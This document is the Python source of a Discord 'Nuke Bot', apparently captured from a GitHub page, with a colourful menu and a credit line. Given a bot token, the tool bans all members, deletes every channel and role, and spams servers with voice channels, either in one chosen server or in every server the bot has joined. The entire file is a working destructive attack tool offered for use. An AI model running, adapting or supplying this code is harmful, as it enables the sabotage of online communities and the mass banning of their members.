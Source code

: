  
 ​import​ ​discord 
 ​from​ ​discord​.​ext​ ​import​ ​commands 
 ​from​ ​colorama​ ​import​ ​init​, ​Fore​ ​as​ ​cc 
 ​from​ ​os​ ​import​ ​name​ ​as​ ​os_name​, ​system 
 ​from​ ​sys​ ​import​ ​exit 
 ​init​() 
 ​dr​ ​=​ ​DR​ ​=​ ​r​ ​=​ ​R​ ​=​ ​cc​.​LIGHTRED_EX 
 ​g​ ​=​ ​G​ ​=​ ​cc​.​LIGHTGREEN_EX 
 ​b​ ​=​ ​B​ ​=​ ​cc​.​LIGHTBLUE_EX 
 ​m​ ​=​ ​M​ ​=​ ​cc​.​LIGHTMAGENTA_EX 
 ​c​ ​=​ ​C​ ​=​ ​cc​.​LIGHTCYAN_EX 
 ​y​ ​=​ ​Y​ ​=​ ​cc​.​LIGHTYELLOW_EX 
 ​w​ ​=​ ​W​ ​=​ ​cc​.​RESET 
  
 ​clear​ ​=​ ​lambda​: ​system​(​'cls'​) ​if​ ​os_name​ ​==​ ​'nt'​ ​else​ ​system​(​'clear'​) 
 ​def​ ​_input​(​text​):​print​(​text​, ​end​=​''​);​return​ ​input​() 
  
 ​baner​ ​=​ ​f''' 
 ​{​r​}​ _   _       _       ​{​m​}​ ____        _    
 ​{​r​}​| \ | |_   _| | _____​{​m​}​| __ )  ___ | |_  
 ​{​r​}​|  \| | | | | |/ / _ ​{​m​}​\  _ \ / _ \| __| 
 ​{​r​}​| |\  | |_| |   <  __​{​m​}​/ |_) | (_) | |_  
 ​{​r​}​|_| \_|\__,_|_|\_\___​{​m​}​|____/ \___/ \__| 
 ​{​y​}​Made by: ​{​g​}​https://github.com/Sigma-cc''' 
  
  
  
 ​async​ ​def​ ​delete_all_channel​(​guild​): 
 ​    ​deleted​ ​=​ ​0 
 ​    ​for​ ​channel​ ​in​ ​guild​.​channels​: 
 ​        ​try​: 
 ​            ​await​ ​channel​.​delete​() 
 ​            ​deleted​ ​+=​ ​1 
 ​        ​except​: 
 ​            ​continue 
 ​    ​return​ ​deleted 
  
 ​async​ ​def​ ​delete_all_roles​(​guild​): 
 ​    ​deleted​ ​=​ ​0 
 ​    ​for​ ​role​ ​in​ ​guild​.​roles​: 
 ​        ​try​: 
 ​            ​await​ ​role​.​delete​() 
 ​            ​deleted​ ​+=​ ​1 
 ​        ​except​: 
 ​            ​continue 
 ​    ​return​ ​deleted 
  
 ​async​ ​def​ ​ban_all_members​(​guild​): 
 ​    ​banned​ ​=​ ​0 
 ​    ​for​ ​member​ ​in​ ​guild​.​members​: 
 ​        ​try​: 
 ​            ​await​ ​member​.​ban​() 
 ​            ​banned​ ​+=​ ​1 
 ​        ​except​: 
 ​            ​continue 
 ​    ​return​ ​banned 
  
  
 ​async​ ​def​ ​create_roles​(​guild​, ​name​): 
 ​    ​created​ ​=​ ​0 
 ​    ​for​ ​_​ ​in​ ​range​(​200​ ​-​ ​len​(​guild​.​roles​)): 
 ​        ​try​: 
 ​            ​await​ ​guild​.​create_role​(​name​=​name​) 
 ​            ​created​ ​+=​ ​1 
 ​        ​except​: 
 ​            ​continue 
 ​    ​return​ ​created 
  
 ​async​ ​def​ ​create_voice_channels​(​guild​, ​name​): 
 ​    ​created​ ​=​ ​0 
 ​    ​for​ ​_​ ​in​ ​range​(​200​ ​-​ ​len​(​guild​.​channels​)): 
 ​        ​try​: 
 ​            ​await​ ​guild​.​create_voice_channel​(​name​=​name​) 
 ​            ​created​ ​+=​ ​1 
 ​        ​except​: 
 ​            ​continue 
 ​    ​return​ ​created 
  
 ​async​ ​def​ ​nuke_guild​(​guild​): 
 ​    ​print​(​f'​{​r​}​Nuke: ​{​m​}​{​guild​.​name​}​'​) 
 ​    ​banned​ ​=​ ​await​ ​ban_all_members​(​guild​) 
 ​    ​print​(​f'​{​m​}​Banned:​{​b​}​{​banned​}​'​) 
 ​    ​deleted_channels​ ​=​ ​await​ ​delete_all_channel​(​guild​) 
 ​    ​print​(​f'​{​m​}​Delete Channels:​{​b​}​{​deleted_channels​}​'​) 
 ​    ​delete_roles​ ​=​ ​await​ ​delete_all_roles​(​guild​) 
 ​    ​print​(​f'​{​m​}​Delete Roles:​{​b​}​{​delete_roles​}​'​) 
 ​    ​created_channels​ ​=​ ​await​ ​create_voice_channels​(​guild​,​name​) 
 ​    ​print​(​f'​{​m​}​Create Voice Channels:​{​b​}​{​created_channels​}​'​) 
 ​    ​#created_roles = await created_roles(guild,name) 
 ​    ​#print(f'{m}Create Roles:{b}{created_roles}') 
 ​    ​print​(​f'​{​r​}​--------------------------------------------​\n​\n​'​) 
  
  
 ​while​ ​True​: 
 ​    ​clear​() 
 ​    ​choice​ ​=​ ​input​(​f'''    
 ​{​baner​}​                 
 ​{​c​}​-------------------------------------------- 
 ​{​b​}​[Menu] 
 ​    ​{​y​}​└─[1] ​{​m​}​- ​{​g​}​Run Setup Nuke Bot 
 ​    ​{​y​}​└─[2] ​{​m​}​- ​{​g​}​Exit 
 ​{​y​}​====>​{​g​}​'''​) 
 ​    ​if​ ​choice​ ​==​ ​'1'​: 
 ​        ​token​ ​=​ ​_input​(​f'​{​y​}​Input bot token:​{​g​}​'​) 
 ​        ​name​ ​=​ ​_input​(​f'​{​y​}​Input name for created channels / roles:​{​g​}​'​) 
 ​        ​clear​() 
 ​        ​choice_type​ ​=​ ​_input​(​f''' 
 ​{​baner​}​                 
 ​{​c​}​-------------------------------------------- 
 ​{​b​}​[Select] 
 ​    ​{​y​}​└─[1] ​{​m​}​- ​{​g​}​Nuke of all servers. 
 ​    ​{​y​}​└─[2] ​{​m​}​- ​{​g​}​Nuke only one server.   
 ​    ​{​y​}​└─[3] ​{​m​}​- ​{​g​}​Exit 
 ​{​y​}​====>​{​g​}​'''​) 
 ​        ​client​ ​=​ ​commands​.​Bot​(​command_prefix​=​'.'​,​intents​=​discord​.​Intents​.​all​()) 
 ​        ​if​ ​choice_type​ ​==​ ​'1'​: 
 ​            ​@​client​.​event 
 ​            ​async​ ​def​ ​on_ready​(): 
 ​                ​print​(​f''' 
 ​[+]Logged as ​{​client​.​user​.​name​} 
 ​[+]Bot in ​{​len​(​client​.​guilds​)​}​ servers!'''​) 
 ​                ​for​ ​guild​ ​in​ ​client​.​guilds​: 
 ​                    ​await​ ​nuke_guild​(​guild​) 
 ​                ​await​ ​client​.​close​() 
 ​        ​elif​ ​choice_type​ ​==​ ​'2'​: 
 ​            ​guild_id​ ​=​  ​_input​(​f'​{​y​}​Input server id:​{​g​}​'​) 
 ​            ​@​client​.​event 
 ​            ​async​ ​def​ ​on_ready​(): 
 ​                ​for​ ​guild​ ​in​ ​client​.​guilds​: 
 ​                    ​if​ ​str​(​guild​.​id​) ​==​ ​guild_id​: 
 ​                        ​await​ ​nuke_guild​(​guild​) 
 ​                ​await​ ​client​.​close​() 
 ​        ​elif​ ​choice_type​ ​==​ ​'3'​: 
 ​            ​print​(​f'​{​dr​}​Exit...'​) 
 ​            ​exit​() 
 ​        ​try​: 
 ​            ​client​.​run​(​token​) 
 ​            ​input​(​'Nuke finished, press enter for return to menu...'​) 
 ​        ​except​ ​Exception​ ​as​ ​error​: 
 ​            ​if​ ​error​ ​==​ ​'''Shard ID None is requesting privileged intents that have not been explicitly enabled in the developer portal. It is recommended to go to https://discord.com/developers/applications/ and explicitly enable the privileged intents within your application's page. If this is not possible, then consider disabling the privileged intents instead.'''​: 
 ​                ​input​(​f'​{​r​}​Intents Error​\n​{​g​}​For fix -> https://prnt.sc/wmrwut​\n​{​b​}​Press enter for return...'​) 
 ​            ​else​: 
 ​                ​input​(​f'​{​r​}​{​error​}​\n​{​b​}​Press enter for return...'​) 
 ​            ​continue 
 ​    ​elif​ ​choice​ ​==​ ​'2'​: 
 ​        ​print​(​f'​{​dr​}​Exit...'​) 
 ​        ​exit​()

